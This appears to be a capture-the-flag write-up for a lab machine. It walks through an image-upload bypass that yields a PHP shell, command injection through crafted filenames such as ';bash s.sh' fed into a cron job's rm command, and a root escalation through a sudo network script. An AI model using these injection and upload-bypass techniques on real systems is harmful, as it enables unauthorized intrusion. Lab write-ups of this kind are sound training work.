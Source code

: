 ![](./logo.png)

# USER

`gobuster` shows the presence of a `/backup` dir. Contained in the directory is a file called `backup.tar`

The code below deals with checking for a valid file name. It only looks like it looks for a substring with either of the file extensions.
```php
 list ($foo,$ext) = getnameUpload($myFile["name"]);
$validext = array('.jpg', '.png', '.gif', '.jpeg');
$valid = false;
foreach ($validext as $vext) {
    if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
    $valid = true;
    }
}
```

Running this command uploads a test image
```
curl -X POST -F 'submit=x' -F 'myFile=@test.jpeg'  http://10.10.10.146/upload.php 
```

`curl` can be passed through BurpSuite via the command bellow:

```
curl <COMMAND> -x http://127.0.0.1:8080
```

The first level of file checking is via a `mime` check. This can be circumvented using a small part of a valid image. 

```
NOTE: Need to mark the image as execuatable for the exploit to work
```

Just adding `.jpg` to a file with `.php` code in allows us to execute a shell.


We are placed in a low level user known as `apache`. We cannot read `user.txt` so we need to elevate to `guly` it seems.

Present in the the `/home/guly` is a `check_attack.php` that is run via a `cron` job.

Adding a file in `/var/www/html/uploads/` with the name of `; <COMMAND>` is added to the end of the command below in `$value`.

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

For example if we name the file `;ls #`. It will replace the code above like so:

```php
exec("nohup /bin/rm -f $path; ls # > /dev/null 2>&1 &");
```

The files need renaming before each command. The path taken was below:

```
;touch s.sh
;chmod 777 s.sh
<Edit s.sh with shellcode>
;bash s.sh
```

This spawns a user and provides us with a user shell!

# ROOT


Enum shows:
```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

```sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

With a level of fuzzing, the output can be used to find out what is happening with the script.

```
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=<X>
PROXY_METHOD=<X>
BROWSER_ONLY=<X>
BOOTPROTO=<X>
```

As can be seen from the file above, our input goes into the area `<X>`.

Putting `cat /tmp/test` into the `NAME` slot gives us output implying that the content of the file is executed. 

```
/tmp/test: line 1: </tmp/test CONTENT>: command not found
```

The command above shows that the content of the file is executed. Putting the content as `cat /root/root.txt` gives us the flag!